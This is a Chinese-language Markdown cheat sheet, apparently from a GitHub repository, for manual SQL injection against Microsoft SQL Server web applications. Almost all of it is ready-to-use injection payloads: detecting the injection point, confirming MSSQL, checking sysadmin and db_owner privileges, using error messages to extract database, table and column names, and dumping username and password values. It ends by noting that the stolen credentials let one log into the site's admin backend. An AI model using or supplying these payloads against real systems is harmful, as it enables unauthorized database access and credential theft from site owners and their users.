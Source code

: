 #mssql手工注入


----------
+ 检测注入点
```mssql
?id=1' and 1=1-- # --表示闭合sql语句（一般可以测试.net 网站）
?id=1' and 1=2--
```
----------

+ 判断数据库类型
```mssql
?id=1' union select * from users where id=1 and exists(select * from sysobjects)--
and (select count(*) from sysobjects)>0  返回正常说明是mssql数据库
```
1433端口一般为mssql数据库开放端口

----------
- 注入点权限的判断（根据页面显示效果）
```mssql
?id=1' and (select IS_SRVROLEMEMBER('sysadmin'))>0--  判断是否为sa权限 页面正常显示便为sa权限
?id=1' and (select IS_SRVROLEMEMBER('public'))>0--  有返回结果说明当前用户为public权限 一般来说有这个权限也看见可以进行暴库 爆表 爆字段了
```

- 判断当前用户的文件读写权限
```mssql
http://……/less-1.asp?id=1' and (select IS_SRVROLEMEMBER('db_owner'))>0-- 没有返回结果便说明没有文件的读写权限
```

----------
- 获取该网站信息（通过.net的报错机制，通过报错爆出数据信息）
```mssql
and 1=(select @@version) 查看版本信息
and 1=(select db_name()) 获取当前数据库
and User_Name()>0  获取当前用户名
```

----------
- 爆库名
```mssql
and 1=(select name from master.dbo.sysdatabases where dbid=1)   暴库名DBID为1，2，3....
暴库名后面依次类推......
```

----------
- 爆表名
```mssql
and (select top 1 name from [数据库名字].sys.all_objects where type='U' AND is_ms_shipped=0)>0  指定数据库爆表
and (select top 1 name from test.sys.all_objects where type='U' and is_ms_shipped=0)=1 获取第一个表名
and (select top 1 name from test.sys.all_objects where type='U' and is_ms_shipped=0 and name not in ('emails'))=1  获取第二个表
```
后面依次类推.......

----------
- 爆字段
```mssql
and (select top 1 column_name from test.information_schema.columns where table_name='users')=1  指定users表 获取第一个字段

and (select top 1 column_name from test.information_schema.columns where table_name='users' and column_name not in ('id'))=1   指定users表 获取第二个字段

后面依次类推.......
```

----------
- 获取字段数据
```mssql
and (select top 1 username from users)=1 获取username的内容
and (select top 1 password from users)=1  获取password的内容
得到账号密码后 在后台登录地址登录就ok了
```


